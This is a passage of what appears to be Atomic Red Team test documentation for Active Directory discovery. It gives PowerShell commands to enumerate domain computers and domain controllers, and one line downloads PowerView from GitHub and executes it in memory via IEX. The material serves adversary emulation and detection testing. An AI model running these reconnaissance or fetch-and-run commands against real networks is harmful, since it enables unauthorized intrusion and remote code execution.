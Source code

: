 ## Atomic Test #18 - Enumerate Active Directory Computers with ADSISearcher

The following Atomic test will utilize ADSISearcher to enumerate computers within Active Directory.
Upon successful execution a listing of computers will output with their paths in AD.
Reference: https://devblogs.microsoft.com/scripting/use-the-powershell-adsisearcher-type-accelerator-to-search-active-directory/

**Supported Platforms:** Windows

**auto_generated_guid:** 64ede6ac-b57a-41c2-a7d1-32c6cd35397d

#### Attack Commands: Run with `powershell`!

```powershell
([adsisearcher]"objectcategory=computer").FindAll(); ([adsisearcher]"objectcategory=computer").FindOne()
```

<br/>
<br/>

## Atomic Test #19 - Get-DomainController with PowerView

Utilizing PowerView, run Get-DomainController to identify the Domain Controller. Upon execution, information about the domain controller within the domain will be displayed.

**Supported Platforms:** Windows

**auto_generated_guid:** b9d2e8ca-5520-4737-8076-4f08913da2c4

#### Attack Commands: Run with `powershell`!

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1' -UseBasicParsing); Get-DomainController -verbose
```

<br/>
<br/>

## Atomic Test #20 - Get-WmiObject to Enumerate Domain Controllers

The following Atomic test will utilize get-wmiobject to enumerate Active Directory for Domain Controllers.
Upon successful execution a listing of Systems from AD will output with their paths.
Reference: https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-wmiobject?view=powershell-5.1

**Supported Platforms:** Windows

**auto_generated_guid:** e3cf5123-f6c9-4375-bdf2-1bb3ba43a1ad

#### Attack Commands: Run with `powershell`!
